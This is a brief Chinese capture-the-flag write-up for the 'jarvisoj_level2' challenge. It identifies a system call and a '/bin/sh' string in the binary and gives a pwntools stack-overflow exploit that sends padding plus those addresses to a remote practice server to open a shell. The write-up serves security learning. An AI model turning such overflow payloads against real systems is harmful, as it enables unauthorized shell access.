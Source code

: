 ```yaml
---
title: "jarvisoj_level2"
description: ""
date: 2023-04-06T21:02:34+08:00
lastmod: 2023-04-06T21:02:34+08:00
draft: false
images: []
type: docs
weight: 994
toc: true
---
```


## 0x01 分析

![](image-1680786188922-1.png)  

有system函数

![](image 2-1680786188923-3.png)  

也有 `/bin/sh` 字符串

所以就是ret2libc

## 0x02 Exploit

```python
from pwn import*
# o = process("./pwn")
o = remote("node4.buuoj.cn", 29126)
call_system = 0x804845C
bin_sh = 0x804A024
payload = b'a'*140 + p32(call_system) + p32(bin_sh)
o.sendline(payload)
o.interactive()

```

![](image 3-1680786188923-2.png)  

自行调试
